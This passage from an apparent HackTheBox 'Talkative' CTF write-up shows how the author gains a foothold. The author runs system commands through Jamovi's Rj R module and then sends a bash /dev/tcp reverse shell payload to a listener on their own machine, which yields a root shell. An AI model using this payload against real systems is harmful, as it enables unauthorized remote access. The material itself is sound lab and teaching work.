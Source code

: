 Both ports returned HTTP status "404 Not Found". I tried to perform content discovery, but nothing came out.

## Initial Foothold

Let's take a step back.

Since Jamovi's module "Rj" in TCP port 8080 is much more interesting, we can poke around at there.

**Hmm... Because I don't have any knowledge in R programming language, I decided to ask ChatGPT about how to execute system commands in R script:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810161726.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810161735.png)

**Let's try that:**
```r
output <- system("id", intern = TRUE)
print(output)
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810161747.png)

**It worked!! We can execute arbitrary system commands using the "Rj" module!!**

Let's get a reverse shell!

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|16:21:58(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
```

- **Send the reveres shell payload:** (Generated from [revshells.com](https://www.revshells.com/))

```r
output <- system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1'", intern = TRUE)
print(output)
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810162305.png)

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|16:21:58(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.155] 57148
[...]
root@b06821bbda78:/# whoami; hostname
root
b06821bbda78
```
